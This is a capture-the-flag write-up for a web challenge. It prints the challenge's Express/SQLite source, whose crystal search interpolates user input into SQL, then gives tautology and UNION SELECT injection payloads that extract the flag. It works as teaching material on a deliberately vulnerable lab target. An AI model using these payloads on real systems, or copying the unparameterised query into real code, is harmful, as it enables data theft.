 ```yaml
---
layout: writeup
category: Newport-Blake-CTF-2023
chall_description: https://i.imgur.com/O74FGE5.png
points: 241
solves: 162
tags: web SQLi sql-union
date: 2023-12-4
comments: false
---
```


My buddy Walter is selling some crystals, check out his shop!  

[walters-crystal-shop.chal.nbctf.com](walters-crystal-shop.chal.nbctf.com)  

[walters_crystal_shop.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Newport-Blake-CTF-2023/web/walters_crystal_shop.zip)  

---

The source includes an `app.js` file. Here it is:  

```js
const express = require("express");
const sqlite3 = require("sqlite3");
const fs = require("fs");

const app = express();
const db = new sqlite3.Database(":memory:");

const flag = fs.readFileSync("./flag.txt", { encoding: "utf8" }).trim();
const crystals = require("./crystals");

db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});

app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

app.get("/", (req, res) => {
  res.sendfile(__dirname + "/index.html");
});

app.listen(3000, () => {
  console.log("Server listening on port 3000");
});
```

The site seems to use SQLite3 for its database services. There also seems to be zero filtering for the SQL query. SQL Injection perhaps?  

I first tested with the following payload:  

    'OR%201=1-- 

And this is actually returned all crystals!  

So SQL injection works, but we need to access the `flag` table, not the `crystals` table. Maybe we can just construct a UNION attack?  

For those who don't know, a UNION attack is essentially an SQL injection that uses the UNION keyword to select elements from another table. All that you have to keep in mind is to match the number of categories used by the original selection, i.e. 3 in this case sinde 3 categories are selected from the `crytals` table. Therefore, the following payload should get the flag:  

    'UNION%20SELECT%20flag,NULL,NULL%20FROM%20flag--

Send the payload in and retrieve the flag!  

    nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}